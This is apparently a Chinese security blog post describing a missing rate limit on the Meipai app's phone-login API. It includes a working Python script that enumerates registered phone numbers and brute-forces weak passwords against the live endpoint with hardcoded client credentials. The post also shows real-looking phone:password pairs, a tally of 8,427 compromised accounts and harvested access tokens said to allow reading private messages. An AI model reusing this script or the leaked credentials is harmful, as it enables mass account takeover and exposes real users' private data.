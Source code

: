 ```yaml
---
layout: post
title: 美拍接口未限频导致的帐号随机密码碰撞
---
```


#### 一个接口

美拍进行手机号登录时会对手机号先进行注册检测，接口会返回登录情况：

![/images/dsjaiodjisaj18792n1x807he712x0je72111x9](/images/dsjaiodjisaj18792n1x807he712x0je72111x9.png)

![/images/oiu412incin8v9xm1uds89adas](/images/oiu412incin8v9xm1uds89adas.png)

如果手机帐号存在但密码错误则提示：

![/images/asaj18792n1x807he712x0je72111x9](/images/asaj18792n1x807he712x0je72111x9.png)

这里我们进行频繁的手机号随机登录查询，是没有限制频率的，所以我们可以通过不断生成手机号然后验证帐号是否注册，随后进行密码破解的操作。（大量帐号的密码破解情况下，弱口令会有很大的空间。）

#### 小脚本

> 1. 随机生成手机号码
> 2. 进行密码破解
> 3. 进行结果存储
        #!/usr/bin/env python
        # coding=utf8
        # author=evi1m0#ff0000.cc
        # create=20150216        import json
        import random
        import requests
        import threadpool as tp        def _burp(phone):
            for pwd in ['123456', '123456789', '000000', phone]:
                api_url = 'http://newapi.meipai.com/oauth/access_token.json'
                data = {'phone': phone,
                        'client_id': '1089857302',
                        'client_secret': '38e8c5aet76d5c012e32',
                        'grant_type': 'phone',
                        'password': pwd,}
                try:
                    print '[*] Burp Phone: %s' % phone
                    req = requests.post(api_url, data=data, timeout=5)
                except:
                    continue
                try:
                    success = json.loads(req.content)['access_token']
                    burp_success = open('./meipai_account.txt', 'a+')
                    burp_success.write('%s:::%s\n'%(phone, pwd))
                    burp_success.close()
                    print success
                    return success
                except:
                    success = 0
                    print '[-] Burp False'
                    continue        def _status(args):
            flag = 0
            while True:
                flag += 1
                phone_number = random.choice(['188','185','158','153','186','136','139','135'])\
                               +"".join(random.sample("0123456789",8 ))
                data = {'phone': phone_number,
                        'client_id': '1089857302',
                        'client_secret': '38e8c5aet76d5c012e32',
                        'grant_type': 'phone',
                        'password': '1',}
                api_url = 'http://newapi.meipai.com/oauth/access_token.json'
                try:
                    print '[%s] Test Phone: %s' % (flag, phone_number)
                    req = requests.post(api_url, data=data, timeout=3)
                    req_status = json.loads(req.content)['error_code']
                except:
                    req_status = 0
                if req_status == 21402 or req_status == 23801:
                    success_f = open('./success_reg_phone.txt', 'a+')
                    success_f.write('%s\n'%phone_number)
                    success_f.close()
                    _burp(phone_number)
                    print '\n[OK] Phone: %s\n' % phone_number        if __name__ == '__main__':
            args = []
            for i in range(30):
                args.append(args)
            pool = tp.ThreadPool(30)
            reqs = tp.makeRequests(_status, args)
            [pool.putRequest(req) for req in reqs]
            pool.wait()
            
![IMG_u901jfd9x99naak.jpg](/images/IMG_u901jfd9x99naak.jpg)#### 继续脚本

![40a661e4551847f5762e077e48c97d76](/images/40a661e4551847f5762e077e48c97d76.png)

我们进行了3台服务器的脚本部署，然后一天后进行数据统计：

1. success_reg_phone.txt
2. mp_account_data.txt

其中```success_reg_phone.txt```为注册美拍的帐号，```mp_account_data.txt```为成功爆破的美拍帐号。

去重整理之后的数据：

    wc meipai_account.txt
    8427    8427  198653 meipai_account.txt
    
    wc success_reg_phone.txt
    92531   92532 1110383 success_reg_phone.txt

其中成功登录```8427```，注册美拍的手机号```92531```。

    head meipai_account.txt
    
    13501235896:::13501235896
    13501239874:::13501239874
    13501256394:::123456789
    13501264953:::123456
    13501279546:::123456
    13501468359:::123456
    13501476253:::123456
    13501526734:::13501526734
    13501529843:::13501529843
    13501549263:::123456

随后我们对```92531```个手机号码去掉已经成功登录的```8427```个手机号后，进行二次的密码爆破。

> 美拍帐号登录错误5次会进行3个小时的密码锁定，所以三个小时能进行一次新的top密码破解；#### 数据统计

部署脚本的第二天我们停止了测试，因为这次仅仅是为了配合接口做次弱密码统计：

    cat meipai_account.txt  | awk -F::: '{print $2}' | sort | uniq -c | head

      65 000000
      98 111111
      19 123123123
    5293 123456
    3059 123456789
     296 5201314    

#### 简单利用

帐号成功登录后会返回一个类似于新浪微博授权的access_token，所以编写脚本进行access_token的收取工作即可；

    e.g:

    head meipai_access_token.txt
    
    00000027d3490ad1dd12c619fc82217a
    000c2518d5e477afc15ef26b23f94c3d
    001cedff4d578f454104a48523bb6b0c
    0023688a2428bd56f8a530c7e38fe6c8
    002812f57c139a3bcfa99a2b6f973286
    00287174138355393b755705c516a456
    0034285349fc1f3c8cc0fdb42dace741
    003a77922fb49d48097ee91a4cb20be2
    003a7e6e21088d2f3d83a6864bf922ee
    00685824290db6eac554577e729fb8ec
    
拥有access_token后可对帐号进行任意操作，比如：关注、查看私信、个人资料信息获取等。
